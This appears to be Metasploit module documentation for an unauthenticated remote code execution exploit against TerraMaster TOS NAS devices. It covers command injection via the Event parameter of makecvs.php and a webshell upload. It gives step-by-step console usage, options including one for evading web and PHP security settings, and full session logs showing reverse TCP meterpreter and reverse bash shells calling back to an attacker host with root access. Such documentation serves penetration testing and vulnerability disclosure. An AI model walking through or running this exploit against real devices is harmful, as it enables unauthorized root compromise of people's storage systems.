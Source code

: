 ## Vulnerable Application

This module is exploiting a vulnerability described in [CVE-2020-35665](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-35665) or
[CVE-2020-28188](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-28188) that allows an unauthenticated attacker to upload a webshell
via shell metacharacters in the `Event` parameter using the vulnerable endpoint `include/makecvs.php` during the `CSV` creation process.
See this [AttackerKB Article](https://attackerkb.com/topics/lXY4yjOvwx/cve-2020-35665) for more details.

Because of this, any remote attacker, regardless of authentication, can exploit this vulnerability to gain
access to the underlying operating system as the user that the web services are running as (typically `root` in case of TerraMaster).

Installing a vulnerable test bed requires a TerraMaster NAS device that can run `TOS 4.x`
This module has been tested against a TerraMaster `F2-210` Model with the specifications listed below:

* TerraMaster F2-210
* CPU: `x64`
* TOS Version: `4.1.27`

## Verification Steps

1. `use exploit/linux/http/terramaster_unauth_rce_cve_2020_35665`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0-PHP, 1-Unix command or 2-Linux Dropper>`
1. `exploit`
1. You should get a `bash` shell or `meterpreter` session depending on the `target` and `payload` settings.

## Options

### WEBSHELL
You can use this option to set the filename and extension (should be .php) of the webshell.
This is handy if you want to test the webshell upload and execution with different file names.
to bypass any security settings on the Web and PHP server.

### COMMAND
This option provides the user to choose the PHP underlying shell command function to be used for execution.
The choices are `system()`, `passthru()`, `shell_exec()` and `exec()` and it defaults to `passthru()`.
This option is only available when the target selected is either Unix Command or Linux Dropper.
For the native PHP target, by default the `eval()` function will be used for native PHP code execution.

## Scenarios

```msf6 exploit(linux/http/terramaster_unauth_rce_cve_2020_35665) > info

       Name: TerraMaster TOS 4.2.06 or lower - Unauthenticated Remote Code Execution
     Module: exploit/linux/http/terramaster_unauth_rce_cve_2020_35665
   Platform: Unix, Linux
       Arch: cmd, php, x64, x86, aarch64
 Privileged: No
    License: Metasploit Framework License (BSD)
       Rank: Excellent
  Disclosed: 2020-12-12

Provided by:
  h00die-gr3y <h00die.gr3y@gmail.com>
  IHTeam

Module side effects:
 ioc-in-logs
 artifacts-on-disk

Module stability:
 crash-safe

Module reliability:
 repeatable-session

Available targets:
      Id  Name
      --  ----
  =>  0   PHP
      1   Unix Command
      2   Linux Dropper

Check supported:
  Yes

Basic options:
  Name       Current Setting  Required  Description
  ----       ---------------  --------  -----------
  Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
  RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
  RPORT      8181             yes       The target port (TCP)
  SSL        false            no        Negotiate SSL/TLS for outgoing connections
  SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
  TARGETURI  /                yes       Path to Terramaster Web console
  URIPATH                     no        The URI to use for this exploit (default is random)
  VHOST                       no        HTTP server virtual host
  WEBSHELL                    no        Web shell name with extension .php. Name will be randomly generated if left unset.


  When TARGET is not 0:

  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  COMMAND  passthru         yes       Use PHP command function (Accepted: passthru, shell_exec, system, exec)


  When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

  Name     Current Setting  Required  Description
  ----     ---------------  --------  -----------
  SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local    machine or 0.0.0.0 to listen on all addresses.
  SRVPORT  8080             yes       The local port to listen on.

Payload information:

Description:
  This module exploits an unauthenticated remote code-execution vulnerability in TerraMaster TOS 4.2.06
  and lower via shell metacharacters in the Event parameter at vulnerable endpoint `include/makecvs.php`
  during CSV creation.
  Any unauthenticated user can therefore execute commands on the system under the same privileges as the
  web application, which typically runs under root at the TerraMaster Operating System.

References:
  https://nvd.nist.gov/vuln/detail/CVE-2020-35665
  https://nvd.nist.gov/vuln/detail/CVE-2020-28188
  https://packetstormsecurity.com/files/160685
  https://packetstormsecurity.com/files/160687
  https://www.ihteam.net/advisory/terramaster-tos-multiple-vulnerabilities/
  https://attackerkb.com/topics/lXY4yjOvwx/cve-2020-35665
```

### TerraMaster F2-210 TOS 4.1.27 - PHP native `php/meterpreter/reverse_tcp` session
```
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2020_35665) > set target 0
target => 0
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2020_35665) > exploit

[*] Started reverse TCP handler on 192.168.10.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. TOS version is 4.1.27 and CPU architecture is X64.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (39927 bytes) to 127.0.0.1
[+] Deleted cuckoo.php
[*] Meterpreter session 5 opened (192.168.10.1:4444 -> 192.168.10.2:55766) at 2023-06-05 14:23:14 +0000

meterpreter > sysinfo
Computer    : TerrorMaster
OS          : Linux TerrorMaster 4.13.16 SMP Mon Jun 05 14:23:56 CET 2023 x86_64
Meterpreter : php/linux
meterpreter > getuid
Server username: root
meterpreter >
```
### TerraMaster F2-210 TOS 4.1.27 - Unix Command `cmd/unix/reverse_bash` session
```
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2020_35665) > set target 1
target => 1
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2020_35665) > exploit

[*] Started reverse TCP handler on 192.168.10.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. TOS version is 4.1.27 and CPU architecture is X64.
[*] Executing Unix Command for cmd/unix/reverse_bash
[+] Deleted cuckoo.php
[*] Command shell session 6 opened (192.168.10.1:4444 -> 192.168.10.2:54556) at 2023-06-05 14:31:35 +0000

uname -a
Linux TerrorMaster 4.13.16 SMP Mon Jun 05 14:32:13 CET 2023 x86_64 GNU/Linux
id
uid=0(root) gid=0(root) groups=0(root)
```
### TerraMaster F2-210 TOS 4.1.27 - Linux Dropper `linux/x64/meterpreter/reverse_tcp` session
```
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2020_35665) > set target 2
target => 2
msf6 exploit(linux/http/terramaster_unauth_rce_cve_2020_35665) > exploit

[*] Started reverse TCP handler on 192.168.10.1:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target is vulnerable. TOS version is 4.1.27 and CPU architecture is X64.
[*] Executing Linux Dropper for linux/x64/meterpreter/reverse_tcp
[*] Sending stage (3045348 bytes) to 127.0.0.1
[+] Deleted cuckoo.php
[*] Meterpreter session 7 opened (192.168.10.1:4444 -> 192.168.10.2:46174) at 2023-06-05 14:39:17 +0000
[*] Command Stager progress - 100.00% done (810/810 bytes)

meterpreter > sysinfo
Computer     : 192.168.10.2
OS           :  (Linux 4.13.16)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter > getuid
Server username: root
meterpreter >
```

## Limitations
No limitations.
